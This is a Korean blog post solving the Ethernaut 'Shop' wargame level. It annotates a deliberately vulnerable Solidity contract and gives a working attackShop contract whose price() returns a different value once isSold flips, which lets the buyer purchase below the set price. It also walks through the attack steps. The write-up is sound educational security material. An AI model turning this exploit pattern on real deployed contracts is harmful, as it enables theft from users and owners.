

# 👋 1. Shop
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract에서 제시한 price보다 낮은 가격에 item 사기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
// Buyer의 Interface
interface Buyer {
    // price는 external view 함수이며 uint256을 return한다.
    function price() external view returns (uint);
}

contract Shop {

    // price가 100으로 설정됨    
    uint public price = 100;
    // 물건이 팔렸는지 확인하는 bool 값, initial value: false
    bool public isSold;

    // 물건을 사는 함수
    function buy() public {
        // _buyer를 msg.sender로 설정
        Buyer _buyer = Buyer(msg.sender);

        // 만약 _buyer.price가 100 이상이고, isSold가 false이면 진행
        if (_buyer.price() >= price && !isSold) {
            // 물건을 샀다!
            isSold = true;
            // price를 _buyer.price()로 바꾼다. 
            price = _buyer.price();
        }
    }
}
```
- - -

## 풀이
### 들어가기 전
먼저 힌트를 보자
1. 구매자가 사용할 상점
2. View 기능의 제한 사항 이해 (<- 중요한 부분)

우리는 view의 기능을 사용해 문제를 풀 수 있다.
<br/>

### 풀이
view를 어떻게 사용해야 Shop contract를 해킹 할 수 있을까?
다음 AttackContract를 확인해보자

```solidity
contract attackShop {

    Shop shop;

    // Shop contract를 shop으로 지정한다.
    constructor(address _shop) public {
        shop = Shop(_shop);
    }

    // shop의 buy()을 실행시키다.
    function attack() public {
        shop.buy();
    }

    // 만약 isSold가 true면 0을 return하고 false면 100을 return한다
    function price() public view returns(uint) {
        return shop.isSold() ? 0:100;
    }
}

```
<br/>

이 문제는 [Eelevator 문제](https://holyhansss.github.io/ethernaut/11_elevator_ethernaut/11_elevator_ethernaut/)와 비슷한 문제이다.

위 코드를 가지고 공격 시나리오를 생각해보자
1. attackShop contract를 Shop의 address를 인자로하여 배포한다.
2. attackShop.attack()을 실행시킨다.
3. Shop.buy()에서 if문을 통과하고 isSold가 true로 바뀐다.
4. attackShop.price()는 isSold가 true기 때문에 Shop.price()를 0으로 바꾼다.

<br/>



위와 같은 시나리오로 isSold가 true가 되었고 price가 0이 된 것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```